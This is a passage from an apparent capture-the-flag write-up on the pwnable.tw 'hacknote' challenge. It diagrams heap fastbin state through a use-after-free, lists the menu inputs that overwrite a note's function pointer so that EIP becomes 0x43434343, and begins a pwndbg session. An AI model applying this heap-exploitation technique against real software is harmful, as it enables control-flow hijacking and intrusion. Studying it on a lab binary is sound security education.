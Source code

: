 ```
```

8. State
```
NoteList[0]
Note { // offset + 0x0
  0x43434343("CCCC") // offset + 0x0
  fastbins[1][0] // offset + 0x4
}
```

```
NoteList[1]
Note { // offset + 0x0
  fastbins[0][1] // offset + 0x0
  fastbins[1][1] // offset + 0x4
}
```

```
NoteList[2]
Note { // offset + 0x0
  putsFn_p() = 0x804862b // offset + 0x0
  content = malloc(0x8) = reallocated fastbins[0][0] <= "CCCCDDD" // offset + 0x4
}
```

9. Execute PrintNote: 3->0
```
NoteList[0]
Note { // offset + 0x0
  0x43434343("CCCC") // offset + 0x0
  fastbins[1][0] // offset + 0x4
}

call => 0x43434343 // Crash!!
```

#### Demo
Set EIP to 0x43434343.
Steps to Reproduce:
1. 1->16->AAAA
2. 1->16->BBBB
3. 2->0
4. 2->1
5. 1->8->CCCCDDD
6. 3->0

```bash
pwndbg> r
Starting program: /home/vagrant/work/pwnabletw/hacknote/hacknote
----------------------
       HackNote
----------------------
 1. Add note
 2. Delete note
 3. Print note
 4. Exit
----------------------
Your choice :1
Note size :16
Content :AAAA
Success !
----------------------
       HackNote
----------------------
 1. Add note
```